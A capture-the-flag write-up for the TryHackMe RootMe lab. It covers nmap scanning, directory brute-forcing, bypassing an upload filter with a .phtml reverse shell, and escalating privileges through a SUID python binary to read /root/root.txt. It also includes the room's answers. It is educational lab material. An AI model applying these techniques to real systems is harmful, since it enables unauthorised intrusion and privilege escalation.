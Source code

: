 # RootMe

This is my write-up for the machine on TryHackMe called **RootMe**: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)

I first ran an nmap scan on the IP address:

```c
sudo nmap -T4 -A 10.10.78.153
```

This is the output I got:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-20 15:45 EDT
Nmap scan report for 10.10.78.153
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/20%OT=22%CT=1%CU=38132%PV=Y%DS=4%DC=T%G=Y%TM=6148E50
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=103%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O
OS:3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   36.67 ms  10.6.0.1
2   ... 3
4   100.50 ms 10.10.78.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.63 seconds

```

My first step was to visit the website on port 80:

![](../../.gitbook/assets/image%20%28192%29.png)

There seems to be nothing on the website other that the following text. I then ran **feroxbuster** with the big.txt file from the Seclists Github repository:

![](../../.gitbook/assets/image%20%28189%29.png)

Two links stood out to me:

![](../../.gitbook/assets/image%20%28188%29.png)

![](../../.gitbook/assets/image%20%28195%29.png)

My assumption was to upload the **pentestmonkey php-reverse-shell** and then get a webshell using that. I first updated the script to have my information in it \(IP and port\):

![](../../.gitbook/assets/image%20%28185%29.png)

Apparently PHP is not permitted:

![](../../.gitbook/assets/image%20%28198%29.png)

I then though about using an alternative php version like phtml. That worked... a bit:

![](../../.gitbook/assets/image%20%28196%29.png)

However, I was not able to get a shell on the system. I then tried the original pentestmonkey script, but then I changed the extension to be **.phtml**, and it worked:

![](../../.gitbook/assets/image%20%28191%29.png)

At this point, I had realized that I had to answer questions on the TryHackMe site. 

> Scan the machine, how many ports are open? **2**
>
> What version of Apache is running? **2.4.29**
>
> What service is running on port 22? **ssh**
>
> What is the hidden directory? **/panel/**

Back to the shell, I was trying to find the user.txt file. It was not in the home directory folders. I then ran:

```c
find / -name user.txt
```

I then saw the following in the big output:

![](../../.gitbook/assets/image%20%28193%29.png)

I then got the user.txt flag:

![](../../.gitbook/assets/image%20%28187%29.png)

I then had to view the hint provided to see what command I should run to check for files with SUID permission. They recommended **find / -user root -perm /4000**. I ran that command and noticed a couple commands I could potentially use:

![](../../.gitbook/assets/image%20%28197%29.png)

On TryHackMe, the format of the question seems to be in the following format:

![](../../.gitbook/assets/image%20%28186%29.png)

This means that the executable has to be 6 letters in size. I tried **/usr/bin/python** and it worked. I went to **GTFOBins** and searched on it for python. I then came across the following:

![](../../.gitbook/assets/image%20%28190%29.png)

I ran this code, but modified it to read the file from the root directory:

```c
python -c 'print(open("/root/root.txt").read())'
```

I then got the flag:

![](../../.gitbook/assets/image%20%28194%29.png)

